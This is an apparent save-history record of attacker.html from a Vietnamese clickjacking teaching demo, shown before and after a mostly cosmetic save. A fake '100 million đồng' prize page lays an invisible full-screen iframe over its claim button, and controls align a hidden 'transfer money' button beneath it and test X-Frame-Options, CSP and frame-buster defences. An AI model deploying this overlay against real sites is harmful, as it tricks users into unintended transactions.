
Repository: Thu-art/clickjacking
Page: attacker.html
These files come from the project's save history. The page is drawn as it stood at one moment and after the next save; the edit follows.
The browser window is 1280 px wide. The pictures show the whole page.

Above is the page before, as saved 2025-11-14 14:57:52.

### attacker.html
<!DOCTYPE html>
<html lang="vi">

<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>🎁 QUAY SỐ TRÚNG THƯỞNG - 100 TRIỆU ĐỒNG</title>
    <style>
        * {
            margin: 0;
            padding: 0;
            box-sizing: border-box;
        }

        body {
            font-family: 'Arial', sans-serif;
            background: linear-gradient(135deg, #ff6b6b 0%, #feca57 100%);
            min-height: 100vh;
            overflow: hidden;
        }

        .attacker-page {
            position: relative;
            width: 100%;
            height: 100vh;
            display: flex;
            flex-direction: column;
            justify-content: center;
            align-items: center;
            z-index: 1;
        }

        .title {
            font-size: 48px;
            font-weight: bold;
            color: white;
            text-shadow: 3px 3px 6px rgba(0, 0, 0, 0.3);
            margin-bottom: 20px;
            animation: pulse 2s infinite;
            text-align: center;
        }

        @keyframes pulse {

            0%,
            100% {
                transform: scale(1);
            }

            50% {
                transform: scale(1.05);
            }
        }

        .subtitle {
            font-size: 24px;
            color: white;
            margin-bottom: 40px;
            text-align: center;
        }

        .prize-box {
            background: white;
            padding: 40px;
            border-radius: 20px;
            box-shadow: 0 20px 60px rgba(0, 0, 0, 0.3);
            text-align: center;
            position: relative;
            z-index: 2;
        }

        .prize-amount {
            font-size: 64px;
            font-weight: bold;
            color: #ff6b6b;
            margin-bottom: 20px;
        }

        .prize-text {
            font-size: 20px;
            color: #666;
            margin-bottom: 30px;
        }

        .spin-button {
            padding: 20px 60px;
            font-size: 24px;
            font-weight: bold;
            background: linear-gradient(135deg, #ff6b6b 0%, #ff5252 100%);
            color: white;
            border: none;
            border-radius: 50px;
            cursor: pointer;
            box-shadow: 0 10px 30px rgba(255, 107, 107, 0.4);
            transition: all 0.3s;
            position: relative;
            z-index: 3;
        }

        .spin-button:hover {
            transform: translateY(-3px);
            box-shadow: 0 15px 40px rgba(255, 107, 107, 0.6);
        }

        .spin-button:active {
            transform: translateY(0);
        }

        /* IFRAME OVERLAY - Đây là phần quan trọng nhất */
        .iframe-overlay {
            position: fixed;
            top: 0;
            left: 0;
            width: 100%;
            height: 100%;
            opacity: 0.0;
            /* Trong suốt hoàn toàn */
            z-index: 9999;
            /* Nằm trên cùng */
            pointer-events: auto;
            display: none;
            /* Ẩn mặc định */
        }

        .iframe-overlay.active {
            display: block;
        }

        .victim-iframe {
            width: 100%;
            height: 100%;
            border: none;
            transform: scale(1.2);
            /* Phóng to để căn chỉnh button */
            transform-origin: center center;
        }

        .controls {
            position: fixed;
            top: 20px;
            right: 20px;
            background: rgba(0, 0, 0, 0.8);
            padding: 20px;
            border-radius: 10px;
            color: white;
            z-index: 10000;
        }

        .controls h3 {
            margin-bottom: 15px;
            color: #feca57;
        }

        .control-btn {
            display: block;
            width: 100%;
            padding: 10px;
            margin: 5px 0;
            background: #667eea;
            color: white;
            border: none;
            border-radius: 5px;
            cursor: pointer;
            font-size: 14px;
        }

        .control-btn:hover {
            background: #764ba2;
        }

        .control-btn.danger {
            background: #e74c3c;
        }

        .control-btn.danger:hover {
            background: #c0392b;
        }

        .slider-group {
            margin: 10px 0;
        }

        .slider-group label {
            display: block;
            margin-bottom: 5px;
            font-size: 12px;
        }

        .slider-group input {
            width: 100%;
        }

        .info-box {
            background: rgba(255, 255, 255, 0.1);
            padding: 10px;
            border-radius: 5px;
            margin-top: 15px;
            font-size: 12px;
            border: 1px solid rgba(255, 255, 255, 0.2);
        }

        .warning-banner {
            position: fixed;
            bottom: 20px;
            left: 50%;
            transform: translateX(-50%);
            background: rgba(231, 76, 60, 0.95);
            color: white;
            padding: 15px 30px;
            border-radius: 10px;
            font-weight: bold;
            z-index: 10001;
            box-shadow: 0 5px 20px rgba(0, 0, 0, 0.3);
        }

        .confetti {
            position: fixed;
            width: 10px;
            height: 10px;
            background: #feca57;
            animation: fall 3s linear infinite;
        }

        @keyframes fall {
            to {
                transform: translateY(100vh) rotate(360deg);
            }
        }
    </style>
</head>

<body>
    <div class="attacker-page">
        <h1 class="title">🎁 CHÚC MỪNG! 🎁</h1>
        <p class="subtitle">Bạn đã trúng thưởng chương trình khuyến mãi đặc biệt!</p>

        <div class="prize-box">
            <div class="prize-amount">100,000,000₫</div>
            <p class="prize-text">Nhấn nút bên dưới để nhận thưởng ngay!</p>
            <button class="spin-button" id="claimButton">🎉 NHẬN THƯỞNG NGAY 🎉</button>
        </div>
    </div>

    <!-- IFRAME OVERLAY - Trang nạn nhân bị overlay -->
    <div class="iframe-overlay" id="iframeOverlay">
        <iframe id="victimFrame" class="victim-iframe" sandbox="allow-same-origin allow-scripts allow-forms"
            title="Hidden Frame">
        </iframe>
    </div>

    <!-- Panel điều khiển cho demo -->
    <div class="controls">
        <h3>⚙️ Điều khiển Demo</h3>

        <button class="control-btn danger" onclick="activateAttack()">
            🎯 KÍCH HOẠT TẤN CÔNG
        </button>

        <button class="control-btn" onclick="deactivateAttack()">
            🛑 TẮT TẤN CÔNG
        </button>
        <div class="slider-group">
            <label for="protectionInput">Chế độ bảo vệ Victim (ví dụ: none, csp, xframe):</label>
            <input type="text" id="protectionInput" value="none" placeholder="none, csp, xframe...">
        </div>

        <div class="slider-group">
            <label>Độ trong suốt iframe: <span id="opacityValue">0%</span></label>
            <input type="range" min="0" max="100" value="0" id="opacitySlider" oninput="adjustOpacity(this.value)">
        </div>

        <div class="slider-group">
            <label>Scale iframe: <span id="scaleValue">1.2x</span></label>
            <input type="range" min="50" max="200" value="120" id="scaleSlider" oninput="adjustScale(this.value)">
        </div>

        <div class="slider-group">
            <label>Vị trí Y: <span id="posYValue">0px</span></label>
            <input type="range" min="-500" max="500" value="0" id="posYSlider" oninput="adjustPosition(this.value)">
        </div>

        <div class="info-box">
            <strong>📌 Hướng dẫn:</strong><br>
            1. Nhấn "Kích hoạt tấn công"<br>
            2. Điều chỉnh độ trong suốt để thấy iframe<br>
            3. Căn chỉnh vị trí nút "Chuyển tiền" trên nút "Nhận thưởng"<br>
            4. Giảm opacity về 0% và thử click
        </div>
    </div>

    <div class="warning-banner">
        ⚠️ ĐÂY LÀ DEMO GIÁO DỤC - KHÔNG SỬ DỤNG VÀO MỤC ĐÍCH XẤU
    </div>

    <script>
        let attackActive = false;

        // TRONG ATTACKER.HTML - Sửa lại hàm này
        function activateAttack() {
            attackActive = true;
            const overlay = document.getElementById('iframeOverlay');
            const iframe = document.getElementById('victimFrame');

            // Lấy chế độ bảo vệ từ ô input
            const protectionMode = document.getElementById('protectionInput').value.toLowerCase() || 'none';

            // ⚠️ Chỉ định tham số protection cho trang nạn nhân
            iframe.src = `/victim.html?protection=${protectionMode}`;

            overlay.classList.add('active');

            alert('⚠️ TẤN CÔNG ĐÃ KÍCH HOẠT!\n' +
                `Đang tải Victim với chế độ: ${protectionMode.toUpperCase()}\n\n` +
                'Bây giờ hãy điều chỉnh độ trong suốt và vị trí. Nếu bạn chọn CSP/XFRAME, iframe sẽ bị chặn.');
        }

        function deactivateAttack() {
            attackActive = false;
            const overlay = document.getElementById('iframeOverlay');
            overlay.classList.remove('active');
            document.getElementById('opacitySlider').value = 0;
            document.getElementById('opacityValue').textContent = '0%';
        }

        function adjustOpacity(value) {
            const overlay = document.getElementById('iframeOverlay');
            overlay.style.opacity = value / 100;
            document.getElementById('opacityValue').textContent = value + '%';
        }

        function adjustScale(value) {
            const iframe = document.getElementById('victimFrame');
            iframe.style.transform = `scale(${value / 100})`;
            document.getElementById('scaleValue').textContent = (value / 100).toFixed(2) + 'x';
        }

        function adjustPosition(value) {
            const iframe = document.getElementById('victimFrame');
            const currentTransform = iframe.style.transform;
            const scale = currentTransform.match(/scale\(([\d.]+)\)/)?.[1] || 1.2;
            iframe.style.transform = `scale(${scale}) translateY(${value}px)`;
            document.getElementById('posYValue').textContent = value + 'px';
        }

        // Hiệu ứng confetti
        function createConfetti() {
            const confetti = document.createElement('div');
            confetti.className = 'confetti';
            confetti.style.left = Math.random() * 100 + '%';
            confetti.style.background = ['#ff6b6b', '#feca57', '#48dbfb', '#ff9ff3'][Math.floor(Math.random() * 4)];
            confetti.style.animationDelay = Math.random() * 3 + 's';
            document.body.appendChild(confetti);

            setTimeout(() => confetti.remove(), 3000);
        }

        setInterval(createConfetti, 300);

        // Xử lý click nút claim
        document.getElementById('claimButton').addEventListener('click', function () {
            if (!attackActive) {
                alert('🎉 Cảm ơn bạn đã tham gia!\n\nĐây chỉ là trang demo giáo dục về Clickjacking.');
            }
        });

        // Kiểm tra iframe load
        document.getElementById('victimFrame').addEventListener('load', function () {
            console.log('Iframe loaded successfully');
        });

        document.getElementById('victimFrame').addEventListener('error', function () {
            console.error('Iframe failed to load - probably blocked by protection');
            alert('⚠️ IFRAME BỊ CHẶN!\n\n' +
                'Trang nạn nhân có cơ chế bảo vệ chống clickjacking.\n' +
                'Có thể là:\n' +
                '- X-Frame-Options: DENY\n' +
                '- CSP frame-ancestors \'none\'\n' +
                '- Frame Buster JavaScript');
        });
    </script>
</body>

</html>

After the next save:

Saved 5 s later.
--- a/attacker.html
+++ b/attacker.html
@@ -1,6 +1,5 @@
 <!DOCTYPE html>
 <html lang="vi">
-
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
@@ -34,22 +33,15 @@
             font-size: 48px;
             font-weight: bold;
             color: white;
-            text-shadow: 3px 3px 6px rgba(0, 0, 0, 0.3);
+            text-shadow: 3px 3px 6px rgba(0,0,0,0.3);
             margin-bottom: 20px;
             animation: pulse 2s infinite;
             text-align: center;
         }
 
         @keyframes pulse {
-
-            0%,
-            100% {
-                transform: scale(1);
-            }
-
-            50% {
-                transform: scale(1.05);
-            }
+            0%, 100% { transform: scale(1); }
+            50% { transform: scale(1.05); }
         }
 
         .subtitle {
@@ -63,7 +55,7 @@
             background: white;
             padding: 40px;
             border-radius: 20px;
-            box-shadow: 0 20px 60px rgba(0, 0, 0, 0.3);
+            box-shadow: 0 20px 60px rgba(0,0,0,0.3);
             text-align: center;
             position: relative;
             z-index: 2;
@@ -113,13 +105,10 @@
             left: 0;
             width: 100%;
             height: 100%;
-            opacity: 0.0;
-            /* Trong suốt hoàn toàn */
-            z-index: 9999;
-            /* Nằm trên cùng */
+            opacity: 0.0; /* Trong suốt hoàn toàn */
+            z-index: 9999; /* Nằm trên cùng */
             pointer-events: auto;
-            display: none;
-            /* Ẩn mặc định */
+            display: none; /* Ẩn mặc định */
         }
 
         .iframe-overlay.active {
@@ -130,8 +119,7 @@
             width: 100%;
             height: 100%;
             border: none;
-            transform: scale(1.2);
-            /* Phóng to để căn chỉnh button */
+            transform: scale(1.2); /* Phóng to để căn chỉnh button */
             transform-origin: center center;
         }
 
@@ -139,7 +127,7 @@
             position: fixed;
             top: 20px;
             right: 20px;
-            background: rgba(0, 0, 0, 0.8);
+            background: rgba(0,0,0,0.8);
             padding: 20px;
             border-radius: 10px;
             color: white;
@@ -210,7 +198,7 @@
             border-radius: 10px;
             font-weight: bold;
             z-index: 10001;
-            box-shadow: 0 5px 20px rgba(0, 0, 0, 0.3);
+            box-shadow: 0 5px 20px rgba(0,0,0,0.3);
         }
 
         .confetti {
@@ -228,7 +216,6 @@
         }
     </style>
 </head>
-
 <body>
     <div class="attacker-page">
         <h1 class="title">🎁 CHÚC MỪNG! 🎁</h1>
@@ -241,14 +228,15 @@
         </div>
     </div>
 
-    <!-- IFRAME OVERLAY - Trang nạn nhân bị overlay -->
     <div class="iframe-overlay" id="iframeOverlay">
-        <iframe id="victimFrame" class="victim-iframe" sandbox="allow-same-origin allow-scripts allow-forms"
+        <iframe
+           id="victimFrame"
+            class="victim-iframe"
+            sandbox="allow-same-origin allow-scripts allow-forms"
             title="Hidden Frame">
         </iframe>
     </div>
 
-    <!-- Panel điều khiển cho demo -->
     <div class="controls">
         <h3>⚙️ Điều khiển Demo</h3>
 
@@ -259,11 +247,11 @@
         <button class="control-btn" onclick="deactivateAttack()">
             🛑 TẮT TẤN CÔNG
         </button>
+
         <div class="slider-group">
-            <label for="protectionInput">Chế độ bảo vệ Victim (ví dụ: none, csp, xframe):</label>
+            <label for="protectionInput">Chế độ bảo vệ Victim (none, xframe, csp, framebuster, all):</label>
             <input type="text" id="protectionInput" value="none" placeholder="none, csp, xframe...">
         </div>
-
         <div class="slider-group">
             <label>Độ trong suốt iframe: <span id="opacityValue">0%</span></label>
             <input type="range" min="0" max="100" value="0" id="opacitySlider" oninput="adjustOpacity(this.value)">
@@ -281,10 +269,10 @@
 
         <div class="info-box">
             <strong>📌 Hướng dẫn:</strong><br>
-            1. Nhấn "Kích hoạt tấn công"<br>
-            2. Điều chỉnh độ trong suốt để thấy iframe<br>
-            3. Căn chỉnh vị trí nút "Chuyển tiền" trên nút "Nhận thưởng"<br>
-            4. Giảm opacity về 0% và thử click
+            1. Đặt chế độ bảo vệ muốn kiểm tra.<br>
+            2. Nhấn "Kích hoạt tấn công".<br>
+            3. Căn chỉnh vị trí nút "Chuyển tiền" trên nút "Nhận thưởng" (nếu không bị chặn).<br>
+            4. Giảm opacity về 0% và thử click.
         </div>
     </div>
 
@@ -295,7 +283,7 @@
     <script>
         let attackActive = false;
 
-        // TRONG ATTACKER.HTML - Sửa lại hàm này
+        // --- Hàm kích hoạt tấn công đã sửa ---
         function activateAttack() {
             attackActive = true;
             const overlay = document.getElementById('iframeOverlay');
@@ -310,8 +298,8 @@
             overlay.classList.add('active');
 
             alert('⚠️ TẤN CÔNG ĐÃ KÍCH HOẠT!\n' +
-                `Đang tải Victim với chế độ: ${protectionMode.toUpperCase()}\n\n` +
-                'Bây giờ hãy điều chỉnh độ trong suốt và vị trí. Nếu bạn chọn CSP/XFRAME, iframe sẽ bị chặn.');
+                  `Đang tải Victim với chế độ: ${protectionMode.toUpperCase()}\n\n` +
+                  'Bây giờ hãy điều chỉnh độ trong suốt và vị trí. Nếu bạn chọn CSP/XFRAME, iframe sẽ bị chặn!');
         }
 
         function deactivateAttack() {
@@ -342,7 +330,7 @@
             document.getElementById('posYValue').textContent = value + 'px';
         }
 
-        // Hiệu ứng confetti
+        // Hiệu ứng confetti và các hàm khác... (Giữ nguyên)
         function createConfetti() {
             const confetti = document.createElement('div');
             confetti.className = 'confetti';
@@ -356,28 +344,21 @@
 
         setInterval(createConfetti, 300);
 
-        // Xử lý click nút claim
-        document.getElementById('claimButton').addEventListener('click', function () {
+        document.getElementById('claimButton').addEventListener('click', function() {
             if (!attackActive) {
                 alert('🎉 Cảm ơn bạn đã tham gia!\n\nĐây chỉ là trang demo giáo dục về Clickjacking.');
             }
         });
 
-        // Kiểm tra iframe load
-        document.getElementById('victimFrame').addEventListener('load', function () {
+        document.getElementById('victimFrame').addEventListener('load', function() {
             console.log('Iframe loaded successfully');
         });
 
-        document.getElementById('victimFrame').addEventListener('error', function () {
+        document.getElementById('victimFrame').addEventListener('error', function() {
             console.error('Iframe failed to load - probably blocked by protection');
             alert('⚠️ IFRAME BỊ CHẶN!\n\n' +
-                'Trang nạn nhân có cơ chế bảo vệ chống clickjacking.\n' +
-                'Có thể là:\n' +
-                '- X-Frame-Options: DENY\n' +
-                '- CSP frame-ancestors \'none\'\n' +
-                '- Frame Buster JavaScript');
+                  'Trang nạn nhân có cơ chế bảo vệ chống clickjacking.');
         });
     </script>
 </body>
-
 </html>
